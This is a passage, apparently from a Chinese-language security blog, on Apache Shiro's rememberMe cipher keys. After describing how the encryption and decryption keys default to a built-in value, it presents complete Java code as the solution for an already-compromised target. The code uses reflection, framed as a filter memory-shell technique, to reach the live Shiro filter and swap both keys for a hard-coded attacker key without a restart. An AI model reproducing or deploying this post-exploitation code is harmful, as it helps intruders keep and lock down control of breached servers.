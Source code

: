 ![image-20211104143156487](https://cdn.jsdelivr.net/gh/SummerSec/Images/3u413ec3u413ec.png)

进行找到securityManager->rememberMeManager就能发现**encryptionCipherKey**和**decryptionCipherKey**。

![image-20211104101315335](https://cdn.jsdelivr.net/gh/SummerSec/Images/10u4110ec10u4110ec.png)



----

去**AbstractRememberMeManager**源码可以发现如果开发人员没有配置**setCipherKey**方法的，encryptionCipherKey和decryptionCipherKey是和DEFAULT_CIPHER_KEY_BYTES是一个值。所以其实就算前面我们修改成功DEFAULT_CIPHER_KEY_BYTES的值也是没有用，本质得修改encryptionCipherKey和decryptionCipherKey的值。

### 修改思路

我们得出得修改decryptionCipherKey和encryptionCipherKey的值，目前有两种解决方案：

1. 拿下目标之后直接对目标的配置文件就行修改，然后重启服务。
2. 利用filter内存马思维去修改shiroFilterFactoryBean中的encryptionCipherKey和decryptionCipherKey的值。

显然重启服务是一个不可取操作，那么只剩下filter内存马方法。这里直接给出解决代码：

```java
    @RequestMapping("/say")
    public String HelloSay(HttpServletRequest request , HttpServletResponse response) throws Exception {
        ServletContext context = request.getServletContext();
        Object obj = context.getFilterRegistration("shiroFilterFactoryBean");
        Field field = obj.getClass().getDeclaredField("filterDef");
        field.setAccessible(true);
        obj = field.get(obj);
        field = obj.getClass().getDeclaredField("filter");
        field.setAccessible(true);
        obj = field.get(obj);
        field = obj.getClass().getSuperclass().getDeclaredField("securityManager");
        field.setAccessible(true);
        obj = field.get(obj);
        field = obj.getClass().getSuperclass().getDeclaredField("rememberMeManager");
        field.setAccessible(true);
        obj = field.get(obj);
        java.lang.reflect.Method setEncryptionCipherKey = obj.getClass().getSuperclass().getDeclaredMethod("setEncryptionCipherKey", new Class[]{byte[].class});
        byte[] bytes = java.util.Base64.getDecoder().decode("3AvVhmFLUs0KTA3Kprsdag==");
//                    java.util.Base64.getEncoder().encode(bytes);
        setEncryptionCipherKey.invoke(obj, new Object[]{bytes});
        java.lang.reflect.Method setDecryptionCipherKey = obj.getClass().getSuperclass().getDeclaredMethod("setDecryptionCipherKey", new Class[]{byte[].class});
        setDecryptionCipherKey.invoke(obj, new Object[]{bytes});
//        response.
//        response.getClas
        response.getWriter().println("ok");
        response.getWriter().flush();
        response.getWriter().close();
        return "ok";
    }
```
